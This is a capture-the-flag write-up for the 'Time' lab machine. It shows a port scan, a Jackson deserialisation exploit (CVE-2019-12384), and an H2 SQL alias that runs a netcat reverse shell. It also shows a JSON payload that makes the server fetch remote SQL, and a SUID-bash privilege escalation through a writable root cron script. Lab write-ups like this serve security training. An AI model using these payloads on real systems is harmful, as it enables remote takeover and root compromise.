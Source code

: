 # Time

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.102
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 10:05 EDT
Warning: 10.129.85.102 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.85.102
Host is up (0.039s latency).
Not shown: 45364 closed tcp ports (conn-refused), 20169 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### JSON Beautifier

Port 80 was running a JSON Beautifier:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

This would accept JSON inputs, but I had no idea what kind of engine this was using. There were 2 modes to this: Beautify and Validate, of which the latter was in Beta. I tried sending some random input and managed to trigger an error:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can view the rest of this error either in Burp or by examining the page source.

{% code overflow="wrap" %}
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
{% endcode %}

So this was using a software called Jackson to validate JSON input. Googling for exploits led me to some deserialisation related exploits where we could achieve RCE. Here's the PoC I used:

{% embed url="https://github.com/jas502n/CVE-2019-12384" %}

We first need to create a reverse shell in SQL interestingly:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f')
```

Afterwards, we need to send this input to the application to be parsed:

<pre class="language-json"><code class="lang-json">[
<strong>"ch.qos.logback.core.db.DriverManagerConnectionSource",
</strong>{
"url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.13\/exploit.sql'"
}
]
</code></pre>

When we send this, it would download the file and give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GetText

I ran a LinPEAS scan for enumeration. Within the output, this caught my eye:

```
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path      
/usr/bin/gettext.sh                                                                          
You own the script: /usr/bin/timer_backup.sh
/usr/bin/rescan-scsi-bus.sh
```

It seems that we own a script or something. Since this is within the system's PATH variable, we can just edit it. Here's the content of the script:

```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

This looks like something that the `root` user would have on a cronjob. As such, we can just append `chmod u+s /bin/bash` to the script.&#x20;

```bash
pericles@time:/usr/bin$ echo 'chmod u+s /bin/bash' >> timer_backup.sh
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Easy root!
